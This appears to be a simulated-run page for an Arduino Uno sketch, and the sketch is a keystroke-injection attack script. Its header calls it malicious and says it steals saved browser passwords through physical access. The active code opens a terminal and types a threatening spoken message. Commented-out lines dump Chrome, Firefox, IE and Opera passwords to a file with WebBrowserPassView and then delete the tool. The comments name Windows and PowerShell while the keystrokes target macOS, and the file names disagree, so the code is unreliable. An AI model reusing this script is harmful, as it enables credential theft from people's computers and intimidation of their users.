
Simulated run of this sketch. Board: Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Shown: output pins drawn as LEDs (lit = HIGH). What the sketch prints to the serial monitor is not drawn.

Above: at 5.4 s.
Timing chart, 0 to 8.3 s (numbered marks = the images above):


The sketch:

helloworld.ino
```cpp
/*

    TITLE: webbrowser.ino
    AUTHOR: Alan @ex0dus-0x
    TARGET-OS: Windows XP, Windows 7, Windows 8.x, Windows 10
    DEPENDENCIES: WebBrowserPassView.exe (stored in deps)
    DESCRIPTION:
      webbrowser.ino is a malicious script that obtains the WebBrowserPassView
      to "recover" browser clearview passwords in a Window environment. This is
      a quick and efficient hack, as it allows the attacker to steal credentials
      just through quick physical access.


*/
#define LEFT_CTRL   0x01
#define LEFT_SHIFT  0x02
#define LEFT_ALT    0x04
#define LEFT_GUI    0x08
#define RIGHT_CTRL  0x10
#define RIGHT_SHIFT 0x20
#define RIGHT_ALT   0x40
#define RIGHT_GUI   0x80

//Keys
#define KEY_ENTER 0x28
#define KEY_BACKSPACE 0x2A
#define KEY_TAB 0x2B
#define KEY_CAPSLOCK 0x39


uint8_t buf[8] = { 0 }; //buffer

const int ledPin = 13;


void keyPress(int mod, int key) {
  buf[0] = mod;
  buf[2] = key;
  Serial.write(buf, 8);
}

void keyRelease()
{
  buf[0] = 0;
  buf[2] = 0;
  Serial.write(buf, 8);  // Release key
}


void keyString(String text) {
  char alpha[] = {'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z'};
  int mean_dic[] = {4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29};

  char normal_sym[] = {'1', '2', '3', '4', '5', '6', '7', '8', '9', '0', '-', '=', '[', ']', '\\', ';', '\'',  ',', '.', '/', ' '};
  int mean_normal_sym[] = {0x1E, 0x1F, 0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27, 0x2D, 0x2E, 0x2F, 0x30, 0x31, 0x33, 0x34, 0x36, 0x37, 0x38, 0x2C};

  char shift_sym[] = {'!', '@', '#', '$', '%', '^', '&', '*', '(', ')', '_', '+', '{', '}', '|', ':', '\"', '<', '>', '?'};
  int mean_shift_sym[] = {0x1E, 0x1F, 0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27, 0x2D, 0x2E, 0x2F, 0x30, 0x31, 0x33, 0x34, 0x36, 0x37, 0x38};

  char temp_char;
  boolean check;

  for(int i = 0; i < text.length(); i++) {
    temp_char = text.charAt(i);
    if( ( (int) temp_char >= 97 && (int) temp_char <= 122) || ( (int) temp_char >= 65 && (int) temp_char <= 90)) {
      for(int j = 0;j<sizeof(mean_dic) - 1;j++) {
        if(temp_char == alpha[j]) {
          keyPress(0, mean_dic[j]);
          keyRelease();
          break;
        } else if(temp_char == toupper(alpha[j])) {
          keyPress(LEFT_SHIFT, mean_dic[j]);
          keyRelease();
          break;
        }
      }
    } else {
      check = false;
      for(int j = 0;j<sizeof(mean_normal_sym) - 1;j++) {
        if(temp_char == normal_sym[j]) {
          check = true;
          keyPress(0, mean_normal_sym[j]);
          keyRelease();
          break;
        }
      }
      if(check == true) continue;

      for(int j = 0;j<sizeof(mean_shift_sym) - 1;j++) {
        if(temp_char == shift_sym[j]) {
          keyPress(LEFT_SHIFT, mean_shift_sym[j]);
          keyRelease();
          break;
        }
      }

    }
  }
}

/////////////////////////////////////////////

void setup()
{
   Serial.begin(9600);

   // Open Run dialog
   delay(3000); // Wait 3 seconds
   keyPress(LEFT_GUI, 0x2C); // Command keys + Space
   keyRelease(); // Release the key
   delay(200);

   // Run powershell.exe
   keyString("terminal"); // Enter string
   keyPress(0, KEY_ENTER); // Press enter
   keyRelease(); // Release the key
   delay(500);

   // Run emoji command
   keyString("say hello, I will find you, and I will kill you && killall Terminal");
   keyPress(0, KEY_ENTER);
   keyRelease();
   delay(500);

  //  // Extract Passwords
  //  keyString("WebBrowserPassView.exe /LoadPasswordsChrome 1 /LoadPasswordsFirefox 1 /LoadPasswordsIE 1 /LoadPasswordsOpera 1 /stext passwords.txt");
  //  keyPress(0, KEY_ENTER);
  //  keyRelease();
  //  delay(500);

  //  // Remove WebBrowserPassViewer
  //  keyString("Remove-Item WebBrowserPassView.exe");
  //  keyPress(0, KEY_ENTER);
  //  keyRelease();
  //  delay(500);
 }


void loop()
{
  pinMode(ledPin, OUTPUT);
  digitalWrite(ledPin, HIGH);
  delay(1000);
  digitalWrite(ledPin, LOW);
}
```

Measured:
- by itself, pin 13 (ledPin): LOW → HIGH at 5.3 s
